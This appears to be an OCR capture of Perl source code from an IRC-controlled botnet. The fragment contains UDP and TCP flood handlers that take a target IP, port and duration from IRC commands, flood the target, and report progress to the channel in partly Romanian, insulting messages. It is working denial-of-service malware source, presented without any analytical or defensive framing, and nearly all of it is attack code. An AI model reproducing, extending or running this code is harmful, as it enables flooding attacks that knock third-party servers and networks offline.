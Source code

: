 #     UDPFlood       # 

###################### 

if ($funcarg =~ /^udp\s+(.*)\s+(\d+)\s+(\d+)/) { 

           sendraw($IRC_cur_socket, "PRIVMSG $printl :13[4@3UDP-DDOS13] ATACKU-L A INCEPUT 4 ".$1.":".$2." 13PE 4 ".$3." 13SECUNDE."); 

           $iaddr = inet_aton("$1") or die "Fuck wrong ip"; 

           $endtime = time() + ($3 ? $3 : 1000000); 

           socket(flood, PF_INET, SOCK_DGRAM, 17); 

           $port = "80"; 

           for (;time() <= $endtime;) { 

           $2 = $2 ? $2 : int(rand(1024-64)+64) ; 

           $port = $port ? $port : int(rand(65500))+1; 

           send(flood, pack("a$psize","flood"), 0, pack_sockaddr_in($2, $iaddr));} 

           sendraw($IRC_cur_socket,"PRIVMSG $printl :13[4@3UDP-DDOS13] ATACKU-L A LOAT SFARSIT CU SUCCES MUIE HAXORE-II 4 ".$1.":".$2."."); 

  } 

###################### 

#     TCPFlood       # 

###################### 

  

         if ($funcarg =~ /^tcpflood\s+(.*)\s+(\d+)\s+(\d+)/) { 

            sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3TCP-DDOS12] Attacking 4 ".$1.":".$2." 12for 4 ".$3." 12seconds."); 

            my $itime = time; 

            my ($cur_time); 

            $cur_time = time - $itime; 

            while ($3>$cur_time){ 

               $cur_time = time - $itime; 

               &tcpflooder("$1","$2","$3"); 

            } 

            sendraw($IRC_cur_socket,"PRIVMSG $printl :12[4@3TCP-DDOS12] Attack done 4 ".$1.":".$2."."); 

         } 
